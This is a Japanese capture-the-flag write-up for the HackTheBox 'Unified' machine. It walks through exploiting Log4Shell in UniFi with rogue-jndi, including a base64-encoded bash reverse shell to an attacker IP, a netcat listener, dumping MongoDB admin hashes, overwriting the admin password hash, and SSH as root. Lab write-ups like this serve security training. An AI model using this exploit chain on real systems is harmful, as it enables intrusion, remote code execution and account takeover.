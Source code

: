 # 1.Port Scan 
ip=10.129.210.188

 nmap -sC -sV $ip
 
![ba80298d1d930b14a8f360efa84083b8.png](../_resources/ba80298d1d930b14a8f360efa84083b8.png)

# 2. Web site

sudo vi /etc/hosts

![9da3df8dd8cd6dc416c1e82117e3e88a.png](../_resources/9da3df8dd8cd6dc416c1e82117e3e88a.png)

**URL: https://unified.htb:8443**

![4cf8963584f80a1960f668296ab4f8a9.png](../_resources/4cf8963584f80a1960f668296ab4f8a9.png)

## Burp suite

loginを試行

![65c6f346873451484eca7b5082e190e1.png](../_resources/65c6f346873451484eca7b5082e190e1.png)

正常な動作を確認

![141bb2a4fea8ba9ace0ec6fba7ac274b.png](../_resources/141bb2a4fea8ba9ace0ec6fba7ac274b.png)

`${jndi:ldap://192.168.11.50:1389/o=tomcat}`

![fe6004eae22a122a448615f95025e0bc.png](../_resources/fe6004eae22a122a448615f95025e0bc.png)

remerberを書き換え

![10984d8cc4c164c3648d1fd968834357.png](../_resources/10984d8cc4c164c3648d1fd968834357.png)

tcpトラフィックを傍受するためにポート389を解放

`sudo tcpdump -i tun0 port 389`

![93388df92ad329b634a8f5c1b41da642.png](../_resources/93388df92ad329b634a8f5c1b41da642.png)

burpsuiteからリクエストを送信

![a7ccce1439c8a72346694d4e93f97b35.png](../_resources/a7ccce1439c8a72346694d4e93f97b35.png)

tcp通信を確認

![4e2d5bd337fb27b4aa83cc42a4f3b170.png](../_resources/4e2d5bd337fb27b4aa83cc42a4f3b170.png)

# 3.Rouge-jndi

攻撃用ツールをインストール

`git clone https://github.com/veracode-research/rogue-jndi.git`

`sudo apt-get install maven` 

![cae9cc287e63c021fa1a0be0166ce58a.png](../_resources/cae9cc287e63c021fa1a0be0166ce58a.png)

リバースシェル用のコードをbase64でエンコード

echo 'bash -c bash -i >&/dev/tcp/10.10.16.18/4444 0>&1' | base64

![aac3742244cd5a2ba635fd64a06e2c8e.png](../_resources/aac3742244cd5a2ba635fd64a06e2c8e.png)

![d05c3dab7975af334cb2f3e053d6589e.png](../_resources/d05c3dab7975af334cb2f3e053d6589e.png)


出力したハッシュに書き換え

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.18" 

![faca2e2733f41e2f4d28b1c8d64120d5.png](../_resources/faca2e2733f41e2f4d28b1c8d64120d5.png)

![a754b94479dd3fbe3b1b2f00dbc3e7b5.png](../_resources/a754b94479dd3fbe3b1b2f00dbc3e7b5.png)

4444ポートを解放

`nc -lvnp 4444`

![fad8b33a8c4e1afacb1f1dcec05a803a.png](../_resources/fad8b33a8c4e1afacb1f1dcec05a803a.png)

burpsuiteからリクエストを送信

![1d1efa8a8ab4b59afe456dd3ad1c3d11.png](../_resources/1d1efa8a8ab4b59afe456dd3ad1c3d11.png)

![f9c831772b685640434900690581df7f.png](../_resources/f9c831772b685640434900690581df7f.png)


# 4.Get user.flag

`whoami`

`script /dev/null -c bash`

![716ec60f540f1503a5ded00a357e0b29.png](../_resources/716ec60f540f1503a5ded00a357e0b29.png)

`id`

`ls /home`

`ls /home/michael`

`cd /home/michael`

`cat user.txt`

![0347599d26a948162dda320aced17ca0.png](../_resources/0347599d26a948162dda320aced17ca0.png)

## mongo DB

mongoの単語が入っているプロセス、CPUとメモリの使用率を表示

ps aux |grep mongo

![9f993132975b5dc881dd3e211f2e57e5.png](../_resources/9f993132975b5dc881dd3e211f2e57e5.png)


![4a251341c53e99cadeb08f564061765b.png](../_resources/4a251341c53e99cadeb08f564061765b.png)

mongoのadminとパスワードのハッシュ値を表示

mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

x_shadow: "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4."


![47b9218fe8d36c3a85b0339286157cc6.png](../_resources/47b9218fe8d36c3a85b0339286157cc6.png)

![67861a4c34521beb34a7b1a24657fd51.png](../_resources/67861a4c34521beb34a7b1a24657fd51.png)

攻撃側で設定したパスワードのハッシュ値をsha-512形式で作成

`mkpasswd -m sha-512 password1234`     

$6$d2cMSHPZ1xD1IWwn$IsP5ELWJk3AaRTG1Z8UnWiMy7MRSkFiGoaYOg90hG0UwZsfDYVLWggksjXN9U7eEO9ZBdxP0PfOHaTbFbDvrh/

![f5c35b3f6bb3a2a625d47bb0b1d08b86.png](../_resources/f5c35b3f6bb3a2a625d47bb0b1d08b86.png)


![f3736ed1ab2bc5ada4d6efd52b602bd3.png](../_resources/f3736ed1ab2bc5ada4d6efd52b602bd3.png)

adminのパスワードのハッシュ値を作成したパスワードのハッシュ値で上書き

mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$d2cMSHPZ1xD1IWwn$IsP5ELWJk3AaRTG1Z8UnWiMy7MRSkFiGoaYOg90hG0UwZsfDYVLWggksjXN9U7eEO9ZBdxP0PfOHaTbFbDvrh/"}})'

![5b0da8f89ae677944c3db4598310afc9.png](../_resources/5b0da8f89ae677944c3db4598310afc9.png)


user: 6ced1a6a89e666c0620cdb10262ba127

# 5.Web site 

administratorと作成したパスワードでログイン

user:administrator
password:password1234

![3b46e7625b33d20eba3101b428133730.png](../_resources/3b46e7625b33d20eba3101b428133730.png)

rootuserとpasswordを確認

![e010b3dd47ff484856ade188efd63bc8.png](../_resources/e010b3dd47ff484856ade188efd63bc8.png)

sshで接続

`ssh root@$ip`

![cde6083b872e53b0f385d4fb50a63463.png](../_resources/cde6083b872e53b0f385d4fb50a63463.png)